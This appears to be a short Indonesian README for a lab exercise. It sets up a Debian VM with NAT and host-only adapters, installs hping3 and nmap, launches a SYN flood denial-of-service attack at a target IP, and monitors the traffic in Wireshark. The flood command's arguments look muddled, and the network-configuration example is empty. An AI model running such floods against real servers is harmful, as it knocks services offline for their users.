

<h2 align="center">Attack dengan hping3 </h2>
بِسْمِ اللَّهِ الرَّحْمَنِ الرَّحِيْم

## Bahan
- VM OS Debian 

## Tujuan
  Membanjiri traffik server

## Penggunaan 
- Konfigurasi Adapter Network pada VM anda dengan dua adapter yaitu NAT dan Host Only
- Konfigurasi Network menjadi dhcp pada adapter NAT/enp0s3 dan Static pada adapter Host Only/enp0s8,
  Contoh :
    
- lakukan update repository terlebih dahulu
- lakukan instalasi hping3 dan NMAP, dengan perintah:
  ```
  apt install hping3 nmap
  ```
- Tunggu hingga proses instalasi selesai
- lakukan serangan dengan membanjiri ip server target menggunakan metode SYN Flood Attack dengan perintah:
  ```
  hping3 -S ip penyerang -a ip target --flood
  ```
- kemudian lakukan monitoring traffik adapter network menggunakan wireshark 

